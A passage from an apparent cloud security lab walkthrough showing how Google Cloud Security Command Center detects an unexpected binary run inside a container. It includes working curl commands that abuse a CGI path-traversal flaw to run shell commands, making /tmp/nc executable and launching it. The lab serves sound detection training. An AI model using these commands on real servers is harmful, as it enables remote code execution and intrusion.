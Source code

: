 ```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"
```

# 11. On the attacker's workstation enter this command to interrupt the running Python web-service:
```
pkill python
```
# 12. Run the following command to confirm there are no processes listening on any TCP ports:
```
lsof -i -sTCP:LISTEN
```
# 13. Run the following command to launch the /tmp/nc file inside our container:
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

# 14. This binary file was not included into the image when the image was built, so SCC must detect it and initiate the Finding Added Binary Executed.
# 15. Return to the Google Cloud Console.
# 16. Open the navigation menu and select Security > Security Command Center > Findings.
# 17. Set the Time range selector to Last hour.
# 18. In the "New threats over time" panel, find the finding Added Binary Executed:

![image](https://github.com/Pruthvi360/linux_security/assets/107435692/58a4e9bd-d6e7-43ec-9e60-79ac98fdbcde)

# 19. Arrange your two SSH windows side-by-side so you can easily toggle between the two:
![image](https://github.com/Pruthvi360/linux_security/assets/107435692/56e2a2ca-f38e-48b2-be00-98503e0f4c5b)
